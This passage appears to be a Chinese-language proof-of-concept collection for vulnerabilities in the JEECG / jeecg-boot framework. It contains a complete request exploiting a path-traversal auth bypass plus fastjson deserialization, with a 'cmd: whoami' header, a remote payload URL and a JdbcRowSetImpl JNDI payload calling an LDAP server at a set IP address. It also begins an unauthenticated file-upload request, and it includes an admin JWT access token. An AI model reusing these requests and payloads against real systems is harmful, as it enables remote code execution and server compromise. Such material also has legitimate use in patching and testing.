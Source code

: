 ```
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
X-Access-Token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE3MzYyMTcyNDQsInVzZXJuYW1lIjoiYWRtaW4ifQ.-Z6FINUMTWQkOR6u009cde9BFyb-l65VWRhUXDz_2ao
Tenant-Id: 0
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: cross-site
Priority: u=0
Te: trailers
Connection: close
Accept-Encoding: gzip
```  
  
## Jeecg-jeecgFormDemoController存在JNDI代码执行漏洞  
```
JEECG 4.0 及之前版本中，由于 /api 接口鉴权时未过滤路径遍历，攻击 者可构造包含 ../ 的 url 绕过鉴权。 因为依赖 1.2.31 版本的 fastjson， 该版本存在反序列化漏洞。攻击者可对
/api/../jeecgFormDemoController.do?interfaceTest 接口进行 jndi 注入攻 击实现远程代码执行。
POST /api/../jeecgFormDemoController.do?interfaceTest= HTTP/1.1
Host: 
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
cmd: whoami
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 77
serverUrl=http://xxxxxxxx:8877/jeecg.txt&requestBody=1&requestMethod=GET
创建如下远程文件，其内容为fastjson代码执行的payload
{
"a":{
"@type":"java.lang.Class",
"val":"com.sun.rowset.JdbcRowSetImpl"
},
"b":{
"@type":"com.sun.rowset.JdbcRowSetImpl",
"dataSourceName":"ldap://10.66.64.89:1389/8orsiq",
"autoCommit":true
}
}
```  
  
## jeecg-boot/jmreport/upload接口存在未授权任意文件上传  
```
测试发现/jeecg-boot/jmreport/upload接口存在未授权任意文件上传，经实测发现上传接口未授权，但访问上传后的文件需要登录，即带token。
POST /jeecg-boot/jmreport/upload HTTP/1.1
User-Agent: Mozilla/5.0 (compatible; Baiduspider/2.0; http://www.baidu.com/search/spider.html)
Accept: */*
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryyfyhSCMs9cajzFD4
Cache-Control: no-cache
Pragma: no-cache
Host: 
```